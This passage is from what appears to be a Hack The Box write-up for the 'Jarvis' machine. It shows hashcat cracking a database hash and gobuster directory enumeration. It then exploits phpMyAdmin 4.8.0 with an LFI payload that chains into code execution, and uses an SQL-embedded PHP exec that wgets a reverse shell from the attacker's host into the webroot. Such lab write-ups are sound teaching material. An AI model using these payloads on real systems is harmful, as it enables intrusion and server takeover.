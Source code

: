 It shows the username _DBadmin_ and a password hash, that can be cracked with **Hashcat**:
```markdown
hashcat -m 300 jarvis_db.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> imissyou

There is probably a login somewhere to use, so search for hidden PHP files and directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.143/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It found the directory _/phpmyadmin_ that forwards to a **phpMyAdmin** login prompt where the gained credentials work:

![phpMyAdmin login page](https://kyuu-ji.github.io/htb-write-up/jarvis/jarvis_web-3.png)

### Exploiting phpMyAdmin

The version of **phpMyAdmin** is 4.8.0 which is from 2018 and has vulnerabilities.
This [article from Vulnspy](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/) describes a **Local File Inclusion** into an **authenticated Remote Code Execution** vulnerability, that we will use.

Running a SQL statement:
```markdown
select '<?php phpinfo();exit;?>'
```

![phpMyAdmin SQL query](https://kyuu-ji.github.io/htb-write-up/jarvis/jarvis_web-4.png)

Getting the session Cookie of phpMyAdmin:

![phpMyAdmin session Cookie](https://kyuu-ji.github.io/htb-write-up/jarvis/jarvis_web-5.png)

Exploiting the LFI and executing the PHP code:
```markdown
10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../var/lib/php/sessions/sess_pe39qj4g9ehq1n10dm1m5v6tsivkbffd
```

Now it shows _phpinfo_ and proofs code execution:

![phpMyAdmin Code Execution](https://kyuu-ji.github.io/htb-write-up/jarvis/jarvis_web-6.png)

A PHP reverse shell from the **Laudanum scripts** can be uploaded with the following statement on the phpMyAdmin interface:
```markdown
select '<?php exec("wget -O /var/www/html/revshell.php http://10.10.14.8/revshell.php"); ?>'
```

Now it is uploaded and executing it, should be possible:
```markdown
10.10.10.143/revshell.php
```
